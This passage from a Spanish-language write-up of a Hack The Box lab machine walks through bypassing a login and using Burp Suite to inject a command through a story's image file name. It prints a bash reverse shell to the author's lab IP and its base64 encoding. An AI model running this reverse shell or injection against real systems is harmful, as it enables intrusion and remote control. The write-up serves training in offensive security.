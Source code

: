 1. Necesitamos primero crear/modificar un archivo en el sistema para que en su nombre tenga nuestro payload.
2. Usar el wrapper `file://` para referenciar ese archivo. (podemos hacer este y el primero al tiempo, pero la idea es que entiendan que hago)

...

### Editamos historia y colocamos nuestro payload como nombre de la imagen [⚙️](#web-command-injection-revsh-editimage) {#web-command-injection-revsh-editimage}

Bypasseamos el panel-login, vemos las historias y seleccionamos cualquiera de las que existen, tomaré la segunda:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361page80_stories_2.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Clic en el **lápiz** y llegamos a acá:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361page80_stories_edit2.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Ahora, vamos a apoyarnos de `BurpSuite` para mostrar claramente la explotación.

Activamos el proxy y en la página web damos clic en `Send`, nos llegaría la petición a **Burp**, damos ya sea: 

* Clic derecho en la petición > `Send to repeater` o
* `CTRL+R`, apagamos el **intercept** y listos, así evitamos estar activando y desactivando el proxy.

Tenemos esto:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361burp_stories_edit2_normal.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Como vemos, ahí están los dos campos interesantes que desbaratamos antes: `image` e `image_url`.

Apoyados en el script que creamos para dumpear las bases de datos podemos ver el valor actual de la imagen para la historia `2`:

```bash
❱ python3 plaYsQLi.py --query writer stories id,title,image
[*] Dumpeando id,title,image de writer.stories

...
[+] 2-Autumn Rain-/img/rain.jpg
...
```

Recordemos que el backend lo único que válida es que lo que sea que pongamos como imagen tenga en su nombre un `.jpg`, así que en teoría debería ser modificado su nombre sin problemas, intentemos el payload para una **Reverse Shell**, que simplemente envía al puerto (en mi caso) `4433` de la dirección IP `10.10.14.157` una `bash (/bin/bash)`, o sea un Shell (:

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.157/4433 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNTcvNDQzMyAwPiYxCg==
```

